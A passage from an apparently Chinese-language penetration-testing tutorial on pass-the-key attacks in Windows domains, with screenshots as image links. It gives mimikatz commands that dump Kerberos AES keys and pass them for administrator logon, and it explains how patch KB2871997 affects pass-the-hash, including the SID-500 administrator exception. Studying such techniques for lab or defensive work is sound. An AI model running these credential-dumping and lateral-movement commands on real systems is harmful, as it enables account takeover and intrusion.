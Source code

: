 **获取 AES 凭证**

```
privilege::debug
sekurlsa::ekeys          #获取kerberos加密凭证
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRpVMwf9Fdb5szwiaarL5TAO0zic9jl8dQjyjA15BTIW5w3UdOlBo4fYUg/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXR5It316ialcHLtFmEvVHLLgcO69wvCyN5SAhHg2GO6lRia6nhxdfialriaQ/640?wx_fmt=png)

**利用获得到的 AES256 或 AES128 进行 Key 攻击**

```
privilege::debug
#使用AES-256进行Key传递攻击
sekurlsa::pth /user:administrator /domain:xie.com /aes256:1a39fa07e4c96606b371fe12334848efc60d8b3c4253ce6e0cb1a454c7d42083
#使用AES-128进行Key传递攻击
sekurlsa::pth /user:administrator /domain:xie.com /aes128:4728551c859bbe351e9c11b5d959163e
```

域控未打 KB2871997 补丁前，无法使用 Key 传递攻击

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRAJbf192Iq76q4K917vQFbXfF8FRLMB0uwC6RKaRicMCUQxvpGxnnskQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRCia0AmsnibagWg9bAibtMFlUyKyRD1U1Ys1wJxjxk8HT7MT91K79WGVtA/640?wx_fmt=png)

但是当我在域控上打上 KB2871997 补丁后，Ke 传递攻击仍然无法使用！这里不知道为什么。

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXROjwCnUdWSoYz1pXcaHibc59fYIibxhsiary5P2nUphh6Ticcl4S663dlLw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXReyTRwiacZN24cSIxiaSCuKibkDgRoR5EQkEkbmKdgJqbgibCNOGibYiactzQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRuuNsibqqHiaN2j2K0NoyqVyU6xBibvO7nvt7pLLckgQImV16iaCeuKCWvA/640?wx_fmt=gif)

  

**更新 KB2871997 补丁产生的影响**  

微软在 2014 年 5 月发布了 KB2871997 和 KB2928120 两个补丁。KB2871997 针对 PTH 攻击，而 KB2928120 针对 GPP(Group Policy Preference)。KB2871997 补丁将使本地帐号不再可以用于远程接入系统，不管是 Network logon 还是 Interactive login。其后果就是：无法通过本地管理员权限对远程计算机使用 Psexec、WMI、smbexec、IPC 等，也无法访问远程主机的文件共享等。

在实际测试中，更新 KB2871997 之后，发现无法使用常规的哈希传递方法进行横向移动，但 administrator(SID=500) 账号例外，使用该账号的散列值依然可以进行哈希传递攻击。这里需要强调的是 SID=500 的账号。即使将 administrator 账号改名，也不会影响 SID 的值。所以，如果攻击者使用 SID 为 500 的账号进行哈希传递攻击，就不会受到 KB2871997 的影响。

**实验**

*   Windows Server 2008R2：192.168.10.20
    
*   域管理员：administrator  、 xie  
    
